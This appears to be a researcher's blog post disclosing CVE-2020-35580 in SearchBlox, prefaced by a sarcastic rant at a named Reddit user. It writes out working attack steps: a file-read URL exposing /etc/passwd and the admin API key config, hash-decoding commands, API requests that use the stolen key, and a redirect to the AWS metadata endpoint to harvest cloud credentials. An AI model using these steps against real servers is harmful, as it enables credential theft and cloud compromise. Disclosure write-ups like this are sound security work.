 ```yaml
---
layout: post
title: CVE-2020-35580
categories: [general]
tags: [cve]
comments: true
---
```


I will start by saying I am not that smart. Never have been, never will be. I know when things are bad and sometimes I can translate that into being top 25 on the all time points list on Bugcrowd. Dropping things like that has never really been my style, but sometimes when I am feeling annoyed at things I see in the world I like the take it out on something else. With that said, I would love to take this opportunity to dedicate this post to a special redditor out there. You know who you are. Well, you dont. Let me give you a hint. You love stupid comments like *That's a lot of text for effectively a Burp Active Scan finding*. Cough,cough @WTF-BOOM. Congratulations! You should feel lucky that you are finally being noticed for something! Even if it is for stupid takes on things you might not understand or know much of anything about. Here's to you!

This dedication isn't actually for some silly man making comments that makes me feel the need to dedicate this to him. The real reason is folks piling on someone isn't cool. Some people are not in a good place to just ignore criticisms and it eats at them and really causes demoralizing issues for them. I am not going to expound on this, but a family member is having a terrible time because of people like you and when I was looking some details from a previous blog post I noticed your helpful comment so I re-wrote my post for you. I couldn't care less that you have crap to post about me, but just let it be known that I am better at it than you are. 

So before I write anything about the bug I found that I needed to answer several questions for somebody that I really shouldn't have to, but apparently it has become necessary.

The Aforementioned Several Questions (Just stop it Ohio State):
##### Question 1
When I decide to write a blog post, do I find a target and run Burp Active Scan and huff paint and write about what is found?
- First off great question, I am glad that you asked! As nice as paint can smell, I do not. Active scan doesn't often find things that are in scope on public bounties. I mean it's great and it sure can, but not in this scenario. And if it does, there is a 99.9999% chance that it was found prior and I don't care. Furthermore, I sure can do that. Clickjacking can be scarier than you even know. Maybe even scary enough that I will dedicate a 10 part series on it. Nice feedback.
##### Question 2
Did this issue I found without Active Scan deserve a blog post? 
- Well I am glad you asked! Applying for a CVE asks for a reference for publishing details, so yes? By the way, it has a CVE. 
<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35580>

##### Question 3
For everyone in disagreement with the answer to Question #2, did this issue I found without Active Scan deserve a blog post? 
- Well, I don't actually care, but hell yes it does. It is a previously unknown issue that needs to be written down. An issue that quite shockingly exists. I am no scientist, but my final vulnerability rating metrics  (the two that matter) were:
  ```md
  Technical complexity Rating : 0
  WTF Lulz Rating : 100
  ```
I will end my rant by saying that if I can reach just one wannabe crap poster than all of this will be worth it. Actually, writing this entertains me so either way I win.

Ok Leroy, lets do this.

I found an external web application and I immediately opened Burp Active Scanner and huffed some paint. Yes, green is the best flavor. Ha. Actually I clicked around as one who does the hacking would do. I did this until I noticed a URL that contained a **url** parameter. Adding a URL to that **url** amounted to an Open Redirect, which was still not found by Active Scanner, sad ;). Despite the url parameter being expressly reserved for URLs, I decided to add an obviously stupid choice of a file name instead of a url. I did it and while I apologize for breaking logical rules, I would do it again. Also, I don't apologize. We now have a url like the following: <https://unhappy.site.com/searchblox/servlet/FileServlet?col=9&url=/etc/passwd> and ![etc-passwd.png]({{site.baseurl}}/assets/media/posts/searchblox/etc-passwd.png)

Fantastic, a nice vulnerable system affected by a Local File Inclusion vulnerability which allowed arbitrary files to be read from the underlying operation without authentication. We are so done, submit bug and cash out, write silly blog post about another Active Scan win!

No Leroy, not that. Let's make it worse. With the perk of being able to read arbitrary files, a specific Searchblox file is our best friend.
<https://unhappy.site.com/searchblox/servlet/FileServlet?url=/opt/tomcat/webapps/searchblox/WEB-INF/config.xml&col=1>
 - *Please note that if the **col** parameter (e.g. short for collection) is not provided or if it is too large vs the number of current collections configured on the site, the file contents will not be returned.*In this config.xml file we allow Burp Active Scanner a chance to contribute to this effort. Here there were beautiful things found:
- A (Not The) Super Admin API Key
- Usernames along with Base64 encoded SHA1 password hashes

Luckily we have Burp Active Scan to tell us everything we would ever need to know, let's start with the hashes,actually we had @jreppiks (From the Twitter) who is slightly better than Active Scan with hashes (his words not mine).
1. To Obtain the actual SHA1 Hash, do the following magic:
```bash
# Base64 encoded SHA1 Hash to SHA1 Hash
echo -n "Base64encoded-SHA1-Hash" | base64 -d | xxd -c 20 | cut -d\: -f2 | awk -F' ' '{print $1}' | sed 's# ##g
```
2. Attempt to crack the hash offline with Hashcat and if it is successful it can be easily checked by logging into the application. But if you have a sick compulsion to re-enhash (re + encode + hash == re-enhash) this to see if you get the same value that you fed Hashcat with you can even do the following:
```bash
# re-enhashed Value: D7xtPXym2wO9JBiH0P6vPzIcKqc=
echo -n "CleartextPassword" | openssl sha1 -binary | base64
```

With all the hash chicanery taken care of, lets circle back to that **Super Admin API Key**. If you can imagine, this API key being an API key, allowed API calls to be made that would normally only be afforded to a **Super Admin** user. Shocking. 

So far, I have shown some "Web AppE" (e.g. Technical Term) things in the course of this post. Before we start the final attack, what actually is SearchBlox? It may just be important to get the most out of this. Searchblox is a customizable, enterprise search solution based on Apache Lucene/Elasticsearch for websites, intranets, databases and custom searches. Essentially its purpose is to replace Google's Search Appliance after it went End-of-Life to index enterprise content. With this in mind the best way to attack it may just be to attack it by using its own functionality against itself. If for no other reason, it is absolutely more fun that way. Finally, I must disclose that both Burp Active Scan and I equally contributed to this final attack, let's attack.

1. We create a new collection on the server to store the data that Searchblox indexes.
```
POST /searchblox/rest/collection/add HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 99
Content-Type: application/json

{ "apikey" : "SHOCKER-AN-API-KEY-GOES-HERE", "colname":"bct3","coltype":"http","language":"en"}

```

2. We create a custom document instructing Searchblox what to index.
```
POST /searchblox/api/rest/docadd HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 187

<?xml version="1.0" encoding="utf-8"?>
<searchblox apikey="SHOCKER-AN-API-KEY-GOES-HERE">
	<document colname="bct3" location="http://evil.bad.site.found.by.burp.active.scanner.com/a"></document>
</searchblox>

```

3. We configure an external Apache Web Server with the following .htaccess file:
```
# 301 FUN with my .htaccess file
http://169.254.169.254/latest
RedirectMatch "^/.*" "http://169.254.169.254/latest/meta-data/"
```
![htaccess.png]({{site.baseurl}}/assets/media/posts/searchblox/htaccess.png)

So why does all of that matter in the slightest? Well, SearchBlox is used for custom searches and can be configured so specific results are shown based on configured criteria. When it is told to index something it wants to be helpful and will. If we tell it to index content on our external server it go forth and request it. Where it gets fun is when we set up Apache to take any request it gets and redirect it back to the Searchblox AWS metadata endpoint. By doing this Searchblox indexes the specified AWS metadata and then we can search for and view it from the appliances web UI within its search results!  And what better information to be able to search for than temporary AWS credentials!
![indexed.png]({{site.baseurl}}/assets/media/posts/searchblox/indexed.png)

Nifty! Thank all that is right and holy for Burp Active Scan.

Like usual, there is undoubtedly there is a better payload/solution/attack to exploit this. If you know a better way to do it, please school me / make fun of me / troll me to tears on Twitter @hateshaped!

P.S. If it seems I am denigrating Burp Active Scan, please be assured that I love it. It is only used as the means to prove my previous statements.
